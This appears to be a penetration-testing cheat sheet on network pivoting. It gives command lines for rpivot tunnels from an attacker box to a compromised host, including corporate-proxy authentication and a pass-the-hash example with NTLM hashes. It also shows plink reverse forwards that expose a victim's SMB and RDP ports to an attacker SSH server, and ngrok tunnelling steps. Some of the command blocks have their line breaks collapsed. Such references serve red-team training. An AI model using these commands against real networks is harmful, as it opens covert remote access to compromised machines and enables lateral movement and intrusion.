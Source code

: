 ## Rpivot

Server (Attacker box)

    python server.py --proxy-port 1080 --server-port 9443 --server-ip 0.0.0.0

Client (Compromised box)

    python client.py --server-ip <ip> --server-port 9443

Through corporate proxy

    python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \--ntlm-proxy-port 8080 --domain CORP --username jdoe --password 1q2w3e

Passing the hash

    python client.py --server-ip [server ip] --server-port 9443 --ntlm-proxy-ip [proxy ip] \--ntlm-proxy-port 8080 --domain CORP --username jdoe \--hashes 986D46921DDE3E58E03656362614DEFE:50C189A98FF73B39AAD3B435B51404EE

## plink

    # exposes the SMB port of the machine in the port 445 of the SSH Serverplink -l root -pw toor -R 445:127.0.0.1:445# exposes the RDP port of the machine in the port 3390 of the SSH Serverplink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389plink -l root -pw mypassword 192.168.18.84 -Rplink.exe -v -pw mypassword user@10.10.10.10 -L 6666:127.0.0.1:445plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]# redirects the Windows port 445 to Kali on port 22plink -P 22 -l root -pw some_password -C -R 445:127.0.0.1:445 192.168.12.185

## ngrok

    # get the binarywget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zipunzip ngrok-stable-linux-amd64.zip# log into the service./ngrok authtoken 3U[REDACTED_TOKEN]Hm# deploy a port forwarding for 4433./ngrok http 4433./ngrok tcp 4433

## Basic Pivoting Types

[Untitled](Network%20Pivoting%20Techniques/Untitled%20Database.csv)

### Listen - Listen

[Untitled](Network%20Pivoting%20Techniques/Untitled%20Database%201.csv)
